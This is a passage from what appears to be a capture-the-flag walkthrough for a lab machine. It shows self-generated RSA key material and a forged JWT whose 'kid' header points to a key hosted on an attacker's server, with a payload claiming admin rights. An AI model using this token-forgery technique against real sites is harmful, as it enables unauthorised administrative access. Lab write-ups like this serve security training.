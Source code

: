 ``` text
PE9ijSdrZ293r756lIipPhRGPum+OqvIa/orrQggCkG7l+D6Jq8+Bzbj8q1BT9SH
ltwLhoDyM5dHVJQHpes2oYJ4qWK5pJPafePHNdJ7nD7gf2zdmWMzpv4/oOzLc/Ov
TQ+xAoIBAHPedynwY8AnpAhm1lgQ1hjC2le58OM5hrLEAjbOViYAH3iJ32W6Y97z
1yYTRDEhyiSf3VyYoS82mX7iAfkTsr3krzkrbhWfeAw0gY9zzf4ark/rYzSad60F
ecQ1FD4opP3dzxSmD3pMPzxK5LNJBDBg52l+8pIYh6iVYm5hqI/15eU8PNXtqbMi
vBuiP3eYyzShBEOPx5lN9Ix+cqVzm8aJbZwMEIrhTB3MoVWZpUfbb/LQ1AnXn7y1
Aa2KDO0WeMNxurkiag9zJAFD3DgVqgNDppu8J4r3/O6gkGwOdyIWx2LVx03Y7O4j
7W8BLLYchq//kIVd43nZHM4jKsv93j0CggEBAKkz7RT8SVDWIyl9KYASb/ARgVTr
peAflLUY5KTROhFPzFpB1+RxGkiU3yhmRWxLRYuhBdBq/2dYXy2PD0/4pg7U0GGU
wzWgMGm+gx97LtpljvSvqfBd0gg0vncf2yIgTLAaFNWIe/xEwcfQEvXSHzi1DLFp
uv84Dd4GM7AWAh8Mz630TNytkxUMzM/tpEgwyGAT+r+orjTOT/mPEly/6Iq/0ifC
O4yg+etPAqhD9XxpUCLx52ZDD9zDJcvS5aMT7IL2PbrqPCxo1d9Qkpat9I9Zxm/q
PKRDnddwusZ31rGqakL5lgkZ2vzZC61mpGxZFafhT0X144YdfQ2kQ+rDXI4=
-----END RSA PRIVATE KEY-----
```
#### public Key 

```text
-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEAqBhxjydIa5DXlSHA1px0
aR5xT9War3MTwfDtJVN+y6iVCQUpx6y3F7c8oNm2yy0jQM8yh4yPEj6TnoP2Ru8F
9UM4fVxVdIoMVF2dn7oSmWoI/xMs8mkXa73oWFvWrQTmvdN4d7zTGmzVaSsi07VS
jjC14upeA0w8RkjOzGSS9xQZIX5Nf/FVtMd/u/Mi25Zc34mOrzKoahSnjuZAb/Y4
8Tyf+i24VVscl/ZZCbhgNiewcxEzNE2qiwRL5HywqpoucNEZAXe3+kZK6XTxwSkJ
11AMtJkUwpmhq5inV5yduyj14v/jfeD5Raxe+FEl7p9bu36muzlcLd1c0oc1Y/3p
LGTAooZL/utIWWEV4jwbQaxsk4N/fyW4qMedeQa2WgJxNFUnLvOjcdDU78jQtMup
2jzdibTAA0rd3hej/k7R7QmO5U5tiHZQVEz80hv07duMen5/O5wtdXA+oO1xZQZ2
ffHLvQYsUShiDK0ypUS25cFPAZgJWh0LlJBAU1847zJTri5snYDU3YKt2Iybm61R
wgoQWg5hKXfSQnK4B0lYnYymN35trgaVbqxBKOdDMXik38i8bOdX1pkeyZQvmbAq
WVvXESgWkBc6UnuQXYp6XKQ1NyRkCQgPmBoWAiUqHohvWqwUoOds6DZ2sEarwnzd
E+SP0nQZ7+WPmKH6uk6ALrkCAwEAAQ==
-----END PUBLIC KEY-----
```

### New JWT Cookie

after generating our own RS256 keys now we must craft our own auth cookie by siging the JWT header and payload using our private and public keys as follows

#### header 

```text
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://< attacker Ip address >:8000/jwtRS256.key"
}
```

#### payload

```text
{
  "username": "kingcobra",
  "email": "kingcobra@notebook.htb",
  "admin_cap": 1
}
```
and then veify the JWT using our RS256 keys from the site https://jwt.io/
